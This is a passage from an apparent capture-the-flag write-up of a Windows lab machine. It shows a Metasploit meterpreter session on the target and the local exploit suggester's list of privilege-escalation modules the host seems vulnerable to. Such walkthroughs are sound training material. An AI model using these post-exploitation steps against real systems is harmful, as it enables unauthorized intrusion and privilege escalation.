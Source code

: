 We need the session number!

```
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.17:1312 -> 10.10.10.5:49181 (10.10.10.5)
```

Okay, its `1`:

```
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/logging-2.4.0/lib/logging.rb:10: warning: /usr/lib/x86_64-linux-gnu/ruby/3.3.0/syslog.so was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.4.0.
You can add syslog to your Gemfile or gemspec to silence this warning.
Also please contact the author of logging-2.4.0 to request adding syslog into its gemspec.
[*] 10.10.10.5 - 203 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
```